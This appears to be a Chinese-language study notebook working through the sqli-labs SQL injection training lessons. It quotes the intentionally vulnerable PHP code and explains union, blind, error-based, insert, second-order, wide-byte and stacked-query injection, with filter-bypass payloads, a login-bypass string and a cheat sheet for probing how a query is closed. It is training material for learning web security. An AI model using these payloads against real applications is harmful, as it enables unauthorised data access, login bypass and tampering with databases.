









## less 1-4   union

未进行任何处理,直接union注入



# less 5-6  盲注,报错

```PHP
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';                         //没有回显,盲注
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="3" color="#FFFF00">';
	print_r(mysql_error());                                  //输出报错信息,可能会产生报错注入
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
```

### regexp 正则注入 

除了常见的时间盲注,布尔盲注,正则注入介绍：http://www.cnblogs.com/lcamry/articles/5717442.html 

like匹配注入也和正则注入类似

# less 7  文件

需要说一下这个方法需要mysql数据库开启secure-file-priv写文件权限，否则不能写入文件。

如果你使用的时phpstudy，或者xammp请修改其自己的环境里的mysql配置文件。

进入mysql安装目录，找到my.ini 修改里面的secure-file-priv参数

如果发现没有secure_file_priv这个选项，直接再最后添加一个空的即可。



如果引号中是一个文件路径的话，导入/出的文件路径会再这个路径下。

### 相关函数：

load_file()导出文件

load date infile

select......into outfile 'file_name'

# less 8-10 盲注

跟5,6的源码一样,只是注释掉了`print_r(mysql_error());` 导致不能使用报错注入

# less 11-14 union post

平平无奇的post

`后端代码：@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";`

# less  15-16 时间盲注

# less 17

源码很有意思,使用了一个`function check_input($value)`函数来检测输入是否合法


```php
function check_input($value)
   {
   if(!empty($value))
      {
      // truncation (see comments)
      $value = substr($value,0,15);                         //限制字符串长度
      }

      // Stripslashes if magic quotes enabled
      if (get_magic_quotes_gpc())						
         {
         $value = stripslashes($value);
         }

      // Quote if not a number
      if (!ctype_digit($value))                     //检查字符串里的字符是不是都是数字,是返回true，不是返回false。
         {
         $value = "'" . mysql_real_escape_string($value) . "'";//函数转义 SQL 语句中使用的字符串中的特殊字符。
         }
      
   else
      {
      $value = intval($value);
      }
   return $value;
   }
```


感觉挺复杂的,不知道以后能不能绕过这个函数

然后看后面,因为passwd没有进行过滤,并且后面输出了报错信息,可以使用报错注入,



若没有报错信息,还可以使用update注入,update参数可控,  update users set password=‘1’ ,id='xxx' where username='admin';

可以更改多个字段数据

# less 18,19

```PHP
	$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
	$result1 = mysql_query($sql);
	$row1 = mysql_fetch_array($result1);
		if($row1)
			{
			echo '<font color= "#FFFF00" font size = 3 >';
			$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
			echo "$uagent";
			echo "</br>";
			echo "$insert";
			mysql_query($insert);
			//echo 'Your IP ADDRESS is: ' .$IP;
			echo "</font>";
			//echo "<br>";
			echo '<font color= "#0000ff" font size = 3 >';			
			echo 'Your User Agent is: ' .$uagent;
			echo "</font>";
			echo "<br>";
			print_r(mysql_error());			                 //输出报错信息
			echo "<br><br>";
			echo '';
			echo "<br>";
			
			}
		else
			{
			echo '<font color= "#0000ff" font size="3">';
			//echo "Try again looser";
			print_r(mysql_error());        
			echo "</br>";			
			echo "</br>";
			echo '';	
			echo "</font>";  
			}

```

因为输出了报错信息,所以可以报错注入

此外,INSERT参数可控还有以下注入方式

### inert注入

#### 1.注入点位于tbl_name

```
原句：insert into {tbl_name}  values(2,2,2,2);

注入：insert into {wp_user values(2,'newadmin','newpasswd')#}  values(2,2,2,2);
```


#### 2.注入点位于values

```
INSERT INTO wp_user VALUES(1,1,{xxxxx});

INSERT INTO wp_user VALUES(1,1,1),(2,1,"aaaaa");                                                   //第二个字段若为管理员标识符,便可以添加管理员

INSERT INTO wp_user VALUES(1,1,1),(2,2,(select pwd from wp_user limit 1));    //最后一个字段可以显示
```


# less 20-22

关于cookie的,会把cookie存入数据库,然后再次访问时取出

# less 23

加了替换,将#和--注释符给替换掉了

```PHP
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);
```

这里直接给出payload:`0' union select 1,2,3 and '1'='1`   可以自己手动闭合后面的单引号

# less 24

### 二次注入:

开发者信任数据库中取出的数据是无害的，当我们引用数据库里的数据时,造成了二次注入

这里我们创建了用户admin'#，然后在修改密码后,却把admin的密码给修改了

源码:

```php
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```







# less 25

```php
function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/AND/i',"", $id);		//Strip out AND (non case sensitive)
	
	return $id;
}
```

将or和and替换为了空,可以采用双写绕过,或者可以采用&&和||

1%27%20aandnd%201--%20-

# less 26

```php
function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/and/i',"", $id);		//Strip out AND (non case sensitive)
	$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
	$id= preg_replace('/[--]/',"", $id);		//Strip out --
	$id= preg_replace('/[#]/',"", $id);			//Strip out #
	$id= preg_replace('/[\s]/',"", $id);		//Strip out spaces
	$id= preg_replace('/[\/\\\\]/',"", $id);		//Strip out slashes   斜杠
	return $id;
}
```

好家伙,又过滤了斜杠和空格,但是空格有很多种方式绕过

如URL编码:  %0a,%0b,%0c,%0d,%09,%a0

/**/组合    括号

这里需要linux环境才能使用这些特殊字符串,因为我是在windows下搭的,就懒得本地测试了

# less 27

```PHP
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
$id= preg_replace('/[--]/',"", $id);		//Strip out --.
$id= preg_replace('/[#]/',"", $id);			//Strip out #.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/select/m',"", $id);	    //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/union/s',"", $id);	    //Strip out union
$id= preg_replace('/select/s',"", $id);	    //Strip out select
$id= preg_replace('/UNION/s',"", $id);	    //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id);	    //Strip out SELECT
$id= preg_replace('/Union/s',"", $id);	    //Strip out Union
$id= preg_replace('/Select/s',"", $id);	    //Strip out select
return $id;
}
```

又过滤了union和select,依旧双写,而且似乎可以大小写绕过

# less 28

```php
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);				//strip out /*
$id= preg_replace('/[--]/',"", $id);				//Strip out --.
$id= preg_replace('/[#]/',"", $id);					//Strip out #.
$id= preg_replace('/[ +]/',"", $id);	    		//Strip out spaces.
//$id= preg_replace('/select/m',"", $id);	   		 	//Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);	    		//Strip out spaces.
$id= preg_replace('/union\s+select/i',"", $id);	    //Strip out UNION & SELECT.
return $id;
}
```

过滤了union+select组合,因为替换为空,仍然双写绕过 union union select select

又或者 使用盲注

# less 29-31 一个简单的waf

又没做,因为好像要搭环境(人太懒了)

# less 32 -34   

### 宽字节注入

因此我们在此想办法将 ‘ 前面添加的 \ 除掉，一般有两种思路： 

1、%df 吃掉 \ 

具体的原因是 urlencode(‘\) = %5c%27，我们在%5c%27 前面添加%df，形 

成%df%5c%27，而上面提到的 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，此 

事%df%5c 就是一个汉字，%27 则作为一个单独的符号在外面，同时也就达到了我们的目的。 

2、将 \’ 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27 的情况，后面的%5c 会被前面的%5c 给注释掉。这也是 bypass 的一种方法。

3. 使用UTF-16编码

```Php
function check_addslashes($string)
{
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
      
    
    return $string;
}
这题增加了个check函数,第一个正则匹配转义了\，然后会在'和"前面加上斜杠,可以使用宽字节注入    //宽字节注入的条件是支持GDK编码
```

payload：`?id=-1%df%27 UNion seleCt 1,2,DATABASE()--+`

第33关将get改为了post请求

这里要注意如果使用宽字节注入的话需要用burp抓包,因为我们的%df中的%会被url编码,而且我直接使用repeater模块还无法看到返回结果,就很疑惑

payload：`uname=admin%df' union select 1,2-- -&passwd=admin&submit=Submit`

当然还有一种方法:将utf-8转换为utf-16或 utf-32，例如将 ' 转为utf-16为�' 。

### 宽字节注入的防护

首先我们需要过滤掉\，不然就可以可以使用第二种思路绕过

过滤斜杠后,我们依旧可以使用%df的方式进行绕过

```php
Addslashes()函数和我们在 32 关实现的功能基本一致的，所以我们依旧可以利用%df 进行绕 过。Notice：使用 addslashes(),我们需要将 mysql_query 设置为 binary 的方式，才能防御此漏洞。 Mysql_query(“SET character_set_connection=gbk,character_set_result=gbk,character_set_client=binary”,$conn);
在PHP语言情况下
可以防止一些SQL诸如 比如我在你的登陆窗口写
“用户名”=%dc%27%20or%201=1%20limit%201%20/*&amp; 
“密码”=88888*/%23 
就有可能直接登陆你后台
但是你如果设置了SET character_set_client = binary 
MYSQL 就会以二进制发送 不存在宽字节注入
```


```php
在使用 mysql_real_escape_string()时，如何能够安全的防护这种问题，需要将 mysql 设置为 

gbk 即可。 

设置代码： 

Mysql_set_charset(‘gbk’,’$conn’)
要避开mysql_real_escape_string可能的风险，有以下策略
1）数据库表使用的编码与数据库变量character_set_client指定的编码相同，这样不需要set names xxx来改变编码。
2）数据库表使用latin1或utf8等字符集，这样set names xxx也不会带来额外的风险。
3）当需要set names gbk时，使用mysql_set_charset来替代。
```

再次分析代码,PHP客户端用的是UTF-8编码,而mysql用的是gbk编码,





# less 35

用了***addslashes*** 函数在指定的预定义字符前添加反斜杠。这些字符是单引号、双引号、反斜线与NULL。

```PHP
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

这题它id没有被单引号包裹,所以说addslashes函数没有作用,直接绕就行

# less 36-37

还是斜杠转义,可能是想给我们介绍一些不同的转义函数吧,其实绕过方法都是一样的

```
mysql_real_escape_string() 函数转义 SQL 语句中使用的字符串中的特殊字符。

下列字符受影响：

\x00

\n

\r

\

'

"

\x1a
```

37 post,老方法


# less 38-41

## 堆叠注入

```php
<?php


// take the variables 
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity
//mysql connections for stacked query examples.
$con1 = mysqli_connect($host,$dbuser,$dbpass,$dbname);
// Check connection
if (mysqli_connect_errno($con1))
{
    echo "Failed to connect to MySQL: " . mysqli_connect_error();
}
else
{
    @mysqli_select_db($con1, $dbname) or die ( "Unable to connect to the database: $dbname");
}


$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
/* execute multi query */
if (mysqli_multi_query($con1, $sql))
{
    
    
    /* store first result set */
    if ($result = mysqli_store_result($con1))　//如果当前执行的查询存在多个结果，返回“真”，而且应用程序必须调用mysql_next_result()来获取结果。
    {
        if($row = mysqli_fetch_row($result))                        // 函数从结果集中取得一行，并作为枚举数组返回。
        {
            var_dump($row);
            echo '<font size = "5" color= "#00FF00">';	
         //  printf("Your Username is : %s", $row[1]);
            echo "<br>";
          //  printf("Your Password is : %s", $row[2]);
            echo "<br>";
            echo "</font>";
        }
           mysqli_free_result($result);   //函数释放结果内存
    }
        /* print divider */
    if (mysqli_more_results($con1))          //函数检查一个多查询是否有更多的结果。
    {
            //printf("-----------------\n");
    }
     //while (mysqli_next_result($con1));  //而且应用程序必须调用mysql_next_result()来获取结果。
}
else 
    {
	echo '<font size="5" color= "#FFFF00">';
	print_r(mysqli_error($con1));
	echo "</font>";  
    }
/* close connection */
mysqli_close($con1);
}
```

**mysqli_multi_query()** 支持同时查询多条数据

这题无法输出第二个语句里面的内容,希望后面能遇到能输出第二个语句内容的关卡,让我对比一下两者的代码;但是第二条语句是可以执行的;可以使用insert语句将将想要的信息输入插入到users表中

payload:

`?id=1%df';insert into users values(99,database(),version()); `

`?id=99`

less 39,整形

41和39的区别 39会输出报错信息,其实可以采用报错注入

# less 42

进来之后是一个登录框



跟二次注入那个一模一样,但是我们不能自己new user

源码:



对username进行了mysqli_real_escape_string()函数进行检查,而且PHP客户端和数据库都是UTF-8编码,所以不存在宽字节绕过,但是它又没有对password进行处理,再password上面就存在注入

我原本都以为这是使用堆叠注入越权new一个admin'#用户来进行二次注入的,但是却用不了,原因是因为:

之前提到的username进行了mysqli_real_escape_string()函数进行过检查,虽然我们能new一个新用户,但是我们其实在登陆时本身单引号就会进行转义呀！！

less 43 换了种闭合方式,然后44，45取消了报错,所以不能使用报错注入了,只能盲注

# 常用

### 闭合方式判断

判断闭合方式，目前掌握的闭合方式为单引号’’，单引号括号(’’)，双引号""，双引号括号("")

当单引号或者双引号出现回显或者语法错误时，如何判断是否带括号呢？

遇到SQL注入第一步判断闭合：
首先尝试：

```
?id=1’
?id=1”
12
```

1如果都报错，则为整形闭合。

2如果单引号报错，双引号不报错。
然后尝试

```
?id=1' --+
?id=1' #
12
```

无报错则单引号闭合。
报错则单引号加括号。

3如果单引号不报错，双引号报错。
然后尝试

```
?id=1" --+
?id=1" #
12
```

无报错则双引号闭合。
报错则双引号加括号。

------

1

输入（其中id=1,1是正确的数据库存在的值），正常回显

```
?id=1 and true --+
或者
?id=true and true --+
123
```

输入，错误回显

```
?id=1 and false --+
或者
?id=true and false --+
123
```

那么就是整形闭合

2

输入（其中id=1,1是正确的数据库存在的值），正常回显

```
?id=1’ and true --+
或者
?id=true‘ and true --+
123
```

输入，错误回显

```
?id=1’ and false --+
或者
?id=true‘ and false --+
123
```

那么就是单引号闭合，其他符号同理

### 单引号转义绕过

当时用单引号’，代码转义为\’，就使用如下方式替换掉单引号

```
%df%27
�'
%EF%BF%BD
123
```

万能密码

```
�' and1=1 #
1
```

### database()

返回当前数据库名

### version()

返回数据库的版本号

### CONCAT(s1,s2…sn)

字符串 s1,s2 等多个字符串合并为一个字符串

### CONCAT_WS(x, s1,s2…sn)

同 CONCAT(s1,s2,…) 函数，但是每个字符串之间要加上 x，x 可以是分隔符

### LIMIT

```
mysql> SELECT * FROM table LIMIT 5,10; // 检索记录行 6-15

//为了检索从某一个偏移量到记录集的结束所有的记录行，可以指定第二个参数为 -1： 
mysql> SELECT * FROM table LIMIT 95,-1; // 检索记录行 96-last.

//如果只给定一个参数，它表示返回最大的记录行数目： 
mysql> SELECT * FROM table LIMIT 5; //检索前 5 个记录行

//换句话说，LIMIT n 等价于 LIMIT 0,n。
123456789
```

### sleep

### left

LEFT(s,n) 返回字符串 s 的前 n 个字符

返回字符串 runoob 中的前两个字符：

SELECT LEFT(‘runoob’,2) – ru

### mid

mid()函数为截取字符串一部分。mid(column_name,start,length)

column_name 必需，要提取字符的字段

start 必需，规定开始位置（起始为1）

length 可选，要返回的字符数，如果省略则返回剩余文本

eg：str=“123456” mid(str,2,1) 结果为2

### substr

substr（）

Substr()和substring()函数实现的功能是一样的，均为截取字符串。

string substring(string, start, length)

string substr(string, start, length)

参数描述同mid()函数，第一个参数为要处理的字符串，start为开始位置，length为截取的长度

### ASCII

返回字符串 s 的第一个字符的 ASCII 码。
返回 CustomerName 字段第一个字母的 ASCII 码：

SELECT ASCII(CustomerName) AS NumCodeOfFirstChar
FROM Customers;

### count

返回查询的记录总数，expression 参数是一个字段或者 * 号

返回 Products 表中 products 字段总共有多少条记录：

SELECT COUNT(ProductID) AS NumberOfProducts FROM Products;

### if

IF(expr,v1,v2) 如果表达式 expr 成立，返回结果 v1；否则，返回结果 v2
SELECT IF(1 > 0,‘正确’,‘错误’)
->正确

### updatexml

updatexml()函数，是更新xml文档的函数。

语法updatexml(目标xml文档，xml路径，更新的内容)

select username from security.user where id=1 and (updatexml(‘anything’,’/xx/xx’,’anything’))